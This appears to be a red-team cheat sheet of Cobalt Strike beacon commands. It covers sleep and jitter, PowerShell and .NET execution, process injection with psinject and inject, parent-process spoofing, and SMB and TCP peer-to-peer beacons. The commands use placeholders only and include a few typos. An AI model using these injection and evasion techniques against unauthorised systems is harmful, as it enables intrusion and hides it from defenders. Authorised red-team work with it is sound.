 <p align="center">
  <img width="500" height="100" src="https://github.com/bigb0sss/RedTeam/blob/master/CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons
#### Sleep
```
sleep 60 50               ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

#### Command Execution
##### Default
```
run [command]
```
##### powershell.exe
```
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```
##### powerpick (Using PS w/o powershell.exe)
```
powrepick [cmdlet] [args]
```

##### psinject (Using PS within another process)
```
psinject [PID] [x86|x64] [cmdlet] [args]
```

##### .NET
```
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

##### cmd.exe
```
shell [command] [args]
```

#### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

#### Parent Process Modification
```
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

#### SMB Beacn
```
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```
